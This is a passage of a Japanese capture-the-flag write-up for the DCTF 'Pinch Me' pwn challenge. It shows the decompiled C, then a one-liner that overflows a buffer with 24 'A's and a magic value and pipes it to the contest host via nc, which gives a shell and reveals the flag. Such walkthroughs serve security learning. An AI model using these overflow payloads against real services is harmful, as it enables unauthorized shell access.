   local_c = 0x1234567;
  local_10 = -0x76543211;
  puts("Is this a real life, or is it just a fanta sea?");
  puts("Am I dreaming?");
  fgets(local_28,100,stdin);
  if (local_10 == 0x1337c0de) {
    system("/bin/sh");
  }
  else {
    if (local_c == 0x1234567) {
      puts("Pinch me!");
    }
    else {
      puts("Pinch me harder!");
    }
  }
  return;
}
{{< / highlight >}}

<br />
ローカル変数（local_10）の方を書き換えるだけで、/bin/sh が実行できそう。

<pre>
$ (python -c 'print("A"*24+"\xde\xc0\x37\x13")' ; cat - ) | nc dctf1-chall-pinch-me.westeurope.azurecontainer.io 7480
Is this a real life, or is it just a fanta sea?
Am I dreaming?
ls
flag.txt
pinch_me
startService.sh
cat flag.txt
dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}
</pre>



<br />

Flag: `dctf{y0u_kn0w_wh4t_15_h4pp3n1ng_b75?}`

<br />
Pwn Sanity Checkの方が難しかった。。


<br /><br />
<br /><br />
<img src="https://captureamerica.github.io/writeups/img/orange_bar.png" alt="orange_bar.png">
<br />
ここから下はイベント終了後に行った復習です。


<br /><br />
## [Pwn]: Readme (150 points)
- - -
### Challenge
> Read me to get the flag.

